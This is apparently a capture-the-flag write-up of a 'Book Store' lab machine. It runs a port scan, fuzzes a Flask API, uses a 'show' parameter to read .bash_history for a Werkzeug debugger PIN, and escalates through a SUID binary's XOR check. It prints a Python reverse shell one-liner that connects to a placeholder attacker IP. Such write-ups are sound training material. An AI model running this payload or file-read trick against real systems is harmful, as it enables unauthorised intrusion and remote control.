# Port Scanning
```bash
❯ rustscan -a 10.49.142.61 -- -A 

Open 10.49.142.61:22
Open 10.49.142.61:80
Open 10.49.142.61:5000

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCs5RybjdxaxapwkXwbzqZqONeX4X8rYtfTsy7wey7ZeRNsl36qQWhTrurBWWnYPO7wn2nEQ7Iz0+tmvSI3hms3eIEufCC/2FEftezKhtP1s4/qjp8UmRdaewMW2zYg+UDmn9QYmRfbBH80CLQvBwlsibEi3aLvhi/YrNCzL5yxMFQNWHIEMIry/FK1aSbMj7DEXTRnk5R3CYg3/OX1k3ssy7GlXAcvt5QyfmQQKfwpOG7UM9M8mXDCMiTGlvgx6dJkbG0XI81ho2yMlcDEZ/AsXaDPAKbH+RW5FsC5R1ft9PhRnaIkUoPwCLKl8Tp6YFSPcANVFYwTxtdUReU3QaF9
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCbhAKUo1OeBOX5j9stuJkgBBmhTJ+zWZIRZyNDaSCxG6U817W85c9TV1oWw/A0TosCyr73Mn73BiyGAxis6lNQ=
|   256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAr3xDLg8D5BpJSRh8OgBRPhvxNSPERedYUTJkjDs/jc
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 834559878C5590337027E6EB7D966AEE
5000/tcp open  http    syn-ack ttl 62 Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 4.X|5.X|6.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Linux 5.14 - 6.8 (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```
Visited the pain page found nothing special. Found a login page. <br/>
 <br/>
But in the login page source cod I found the following. <br/>
 <br/>
Need to check `.bash_history` for PIN. <br/>
Then I fuzz the 5000 port and found two endpoints `/api`, `/console`. <br/>
 <br/>
  <br/>
In `/api` I have found some list of APIs. All are V2. I give a visit with V1. <br/>
  <br/>
So still it is open. I fuzz for parameters in both of the APIs. <br/>
  <br/>
The latest give the same as listed. But V1: <br/>
 <br/>
Give me a new parameter `show`. <br/>
Visiting `http://10.49.142.61:5000/api/v1/resources/books?show=.bash_history` found the PIN.  <br/>
  <br/>
Using the PIN I logged in.  <br/>
 <br/>
This is a **Werkzeug Debugger Interactive Console**, a web-based Python REPL typically used in Flask development environments when an unhandled exception occurs with debug mode enabled.
I used the following reverse shell payload for reverse shell. 
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```
 <br/>
# Privilege Escalation.
I found a SUID set binary in the home directory of sid. <br/>
![[bs11.png]] <br/>
Reversing that binary <br/>
![[bs12.png]] <br/>

### Binary Analysis Summary
This is a simple C program that: 
1. Sets UID to 0 (root) with `setuid(0)`
2. Asks for a "magic number"
3. XORs your input with 4374, then with 23987
4. Compares the result to **1573724660**
5. If correct, spawns `/bin/bash -p` (privileged bash)
With python I got the original number. <br/>
  <br/>
Then running the binary I got the shell.  <br/>
  <br/>